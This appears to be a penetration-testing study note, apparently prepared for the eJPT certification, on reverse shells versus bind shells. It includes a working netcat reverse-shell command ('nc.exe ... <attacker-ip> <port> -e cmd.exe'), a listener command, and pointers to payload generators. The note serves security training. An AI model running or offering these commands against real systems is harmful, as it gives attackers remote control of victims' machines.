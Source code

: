 
+ A reverse shell is a type of remote shell where the target connects directly to a listener on the attacker's system, consequently allowing for execution of commands on the target system.

![image](https://github.com/B4PHOM3T/eJPT-Notes/assets/89618500/7afe0be5-4a0b-43ff-a519-241b672419af)
- Target connects to Netcat listener on Attacker system.


**Advantages of a reverse shell over bind shell**

1. In case of a reverse shell, the listener is setup on the attacker machine. The target machine instead connects to the attacker machine. 
2. Outgoing traffic from a system is rarely blocked by security mechanisms, this will help the target machine connect to the attacker without raising much suspicion. 

**Disadvantage of a reverse shell**

1. In order to establish a connection between the attacker and the target machine, the target machine needs to know the IP address of the attacker machine. This poses the risk of having the attacker IP address leaked. 

### How to gain reverse shell access using `nc` ?

1. Transfer the `nc.exe` file from the Linux machine to the Windows machine.

2. Set up the listener in the attacker machine.
```
nc -lnvp <port>
```

3. Connect to the attacker machine using `nc.exe`
```
nc.exe -nv <attacker-ip> <port> -e cmd.exe
```

4. This will provide us with a reverse command shell session on our Linux machine.

5. This process can be repeated on multiple operating systems regardless of whether its a Windows or Linux system. 

6. Since it's a reverse shell connection, the connection doesn't need to be made by `nc`. It can also be made using a `PowerShell` or `Bash` code.

### Cheat Sheet for Reverse Shell 

1. Codes in various language are available in the `PayloadsAllTheThings` Github repository to connect to a `nc` listener running on the attacker machine.
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

2. We can use the https://www.revshells.com/ website to generate reverse shells, bind shells or `MSFVenom` payloads for both Linux and Windows in the language of our choice. 

3. We'll use a PowerShell payload from the `revshells` website to get a reverse shell connection.

4. Set up the listener in the attacker machine. `nc -lnvp 80`

5. Paste the copied `shellcode` in `cmd` of the target Windows system and run. We should get a reverse shell on our attacker machine.
